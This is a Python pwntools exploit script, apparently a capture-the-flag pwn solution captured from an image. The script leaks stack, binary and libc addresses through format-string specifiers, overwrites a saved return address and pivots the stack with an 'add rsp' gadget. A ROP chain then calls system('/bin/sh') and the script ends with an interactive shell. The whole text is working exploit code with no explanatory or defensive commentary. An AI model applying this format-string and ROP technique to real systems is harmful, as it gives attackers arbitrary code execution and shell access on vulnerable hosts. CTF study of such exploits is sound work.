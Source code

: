 ```python
S2 = b"1"
payload = b"%p || "*5 + b"^%p^" + b" $ %p$" + b"|%p|"*3 + b"&&& %p&"
reg(acc,S2,payload)
login(acc,S2)
info()

p.recvuntil(b"^")
stack = int(p.recvuntil(b"^",drop=True),16)
log.info('[+] STACK : ' + hex(stack))
p.recvuntil(b"$ ")
exe.address = int(p.recvuntil(b"$",drop=True),16) -   0x17d6

p.recvuntil(b"&&& ")
libc.address = int(p.recvuntil(b"&",drop=True),16) -   0x55b32
log.info('[+] EXE LEAK : '+ hex(exe.address))
log.info('[+] LIBC LEAK : '+ hex(libc.address))

one = libc.address + 0xe35a9
RDI = libc.address + 0x00000000000240e5
RDX = libc.address + 0x0000000000026302
RSI = libc.address + 0x000000000002573e
# ########## change the stack #############
saverip = stack - 0x128 
one_stack = stack - 0x108
ret = exe.address + 0x000000000000101a
RSP58 = libc.address + 0x000000000009ac55 # add rsp, 0x58; ret;
payload = flat(
    b"A"*0x58,
    p64(saverip),
)
p.sendlineafter(b"> ",b'4')
p.sendlineafter(b"Please leave a feedback:",payload)
acc1 = flat(
    RSP58,b"A"*(0x30- 0x18) , p64(RSP58)
)

s3 = flat(
    RDI,next(libc.search(b"/bin/sh\x00")),
    # ret,
    libc.sym['system']
)
s3 = s3.ljust(0x58,b"B")
s3 += p64(saverip)
payload = flat(
    f"%{ret & 0xffff}c%31$hn"
)
reg(acc1,s3,payload)
login(acc1,s3)
info()
p.interactive()
```
